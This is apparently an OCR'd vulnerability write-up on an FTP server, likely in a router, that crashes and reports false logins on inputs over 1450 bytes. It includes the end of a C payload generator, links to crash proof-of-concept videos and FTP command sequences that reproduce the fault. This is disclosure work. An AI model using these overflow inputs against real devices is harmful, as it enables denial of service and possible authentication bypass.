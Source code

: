  ```c
    payload[TOTAL_PAYLOAD_LENGTH] = '\0';

    char debug_msg[100];
    snprintf(debug_msg, sizeof(debug_msg), "Generated payload of length %d ('A's + 5 byte prefix + 2 byte suffix)",
        TOTAL_PAYLOAD_LENGTH);
    log_msg("[*]", debug_msg);

    return payload;
}
```  
### Instant crash Proof of Concept: 

https://github.com/user-attachments/assets/c874edb8-f1fe-442b-beb4-df9f5ccb0373

### Delayed crash Proof of Concept: 
 
https://github.com/user-attachments/assets/8b6aca34-c9b3-4c82-95f9-c858925a096e

### Undefined Behavior with Buffer > 1450: Critical State Corruption

When inputs exceeding 1450 bytes are processed, the FTP server enters an **unstable state** marked by authentication corruption, erratic command execution, and severe resource mismanagement. These symptoms highlight critical vulnerabilities with a high potential for exploitation.

#### CLI Demonstration

1. **Malformed `USER` Command Causes Authentication Corruption**:
   ```bash
   ftp> user AAAA..AAAA
   331 Password required for AAAA..AAAA.
   Password:
   500 'A': command not understood.
   Login failed.
   ftp> cd aaaaaaaaaa/bbbbbbbbbb/cccccccccc/dddddddddd/eeeeeeeeee/ffffffffff/gggggggggg/hhhhhhhhhh/iiiiiiiiii/jjjjjjjjjjjjjjjjjjjjjjjjj
   230 User user AAAAA...AAAA logged in. (What??)
   ```
   - **Critical Flaw**: The server falsely reports the malformed user as "authenticated" (`230 User user AAAAA...AAAA logged in`), demonstrating state corruption, the user is not authenticated nor is it valid, so this message is indicating that there's something happening that's being induced 
     by these commands specifically.

2. **Connection Termination Due to Signal 13 (Broken pipe)**:
   ```bash
   ftp> user AAAAAA.....AAAAA
   331 Password required for AAAAAA.....AAAAA.
   Password:
   500 'A': command not understood.
   Login failed.
   ftp> cd aaaaaaaaaa/bbbbbbbbbb/cccccccccc/dddddddddd/eeeeeeeeee/ffffffffff/gggggggggg/hhhhhhhhhh/iiiiiiiiii/jjjjjjjjjjjjjjjjjjjjjjjjj
   ftp: lostpeer due to signal 13
   ```
   - Signal 13 (broken pipe) indicates that the server abruptly terminates the connection, likely due to memory corruption or resource exhaustion caused by oversized inputs this does not happen always and I've been able to reproduce it only a couple of times one of them where the server signal 13 is 
     sent then the router crashes, i have managed to reproduce it a second time on video which is attached below.
